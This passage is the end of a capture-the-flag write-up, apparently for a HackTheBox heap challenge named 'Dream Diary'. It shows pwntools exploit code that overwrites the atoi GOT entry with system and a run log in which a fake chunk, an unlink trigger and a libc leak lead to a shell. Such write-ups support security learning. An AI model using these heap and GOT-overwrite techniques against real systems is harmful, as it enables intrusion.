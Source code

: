 ```py
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+
```

Now, all left is to calculate the `system` address and then overwrite another GOT entry with the `system` address and enjoy the shell:-

```py
system = p64(libc.function("system"))
#system = system.replace(b"\x7f", b"\x16\x7f")
edit(3, p32(elf.got("atoi")))
edit(0, system)

p.sendafter(">> ", "sh")
p.interactive()
```


Now, running the final exploit:-

```py
0 [13:30:14] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2677
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Changing freegot to print@plt for LIBC Leak
[*] Getting __libc_start_main
[*] __libc_start_main+240:    0x7f89ceb6c840
[*] LIBC                 :    0x7f89ceb4c010
[*] Switching to interactive mode
Invalid choice!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+
>> $ 
$ whoami
vagrant
$ 
[*] Interrupted
[*] Stopped program './chapter1'
```
